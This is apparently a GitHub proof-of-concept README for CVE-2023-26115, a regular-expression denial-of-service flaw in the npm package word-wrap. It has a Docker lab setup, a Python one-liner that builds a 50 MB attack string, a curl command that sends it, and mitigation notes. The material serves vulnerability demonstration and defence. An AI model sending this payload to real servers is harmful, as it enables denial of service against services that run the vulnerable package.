

# CVE-2023-26115 – `word-wrap` Regular Expression Denial of Service (ReDoS) PoC

> **Severity:** HIGH (7.5 CVSS v3.1)  
> **Package:** `word-wrap` ≤ 1.2.3 (tested 1.2.3)

`word-wrap` removes leading indentation with a greedy regular expression.  
When `trim: true` is enabled and the `indent` option is a long repeating character sequence, an attacker can craft an input that causes catastrophic back‑tracking. A single request with a 50 MB payload or a burst of concurrent requests pegs a CPU core and stalls the Node.js event loop, leading to denial‑of‑service.

---

## Environment Details
Base Image: node:18‑slim

Dependencies:

word-wrap@1.2.3 (vulnerable)  
express@4

Demo API (`server.js`) listens on **3000** and, for each request, invokes
wrap(body, { trim: true, indent: 'A'.repeat(48) });
inside a `for` loop × 100 to amplify the back‑tracking cost.

---

## Exploit Steps

1. **Build and run the PoC container**
```bash
docker build -t wordwrap-vuln .
docker run --rm -p 3001:3000 wordwrap-vuln
```

2. **Craft a 50 MB attack string**
```bash
python3 - <<'PY' > attack.txt
print('B' + 'A' * 50_000_000)
PY
```

3. **Send the payload and measure latency**
```bash
time curl -s -X POST http://localhost:3001/wrap
-H "Content-Type: text/plain" --data-binary @attack.txt
```

Expected: normal request < 5 ms; malicious request ≫ 1 s & CPU 100 %

## Result Screenshot


## Mitigation Notes

Upgrade or replace `word-wrap` with a safe version (≥ 1.2.4) or an alternative
such as `wrap-ansi`.

Until upgrading:

* Enforce an upper bound on input length (e.g., 10 kB) before calling `word-wrap`.
* Replace the vulnerable regex with a pre‑patched implementation or wrap
the call in a worker thread with a hard timeout.
* Deploy a reverse‑proxy that rate‑limits large POST bodies and concurrent
connections.
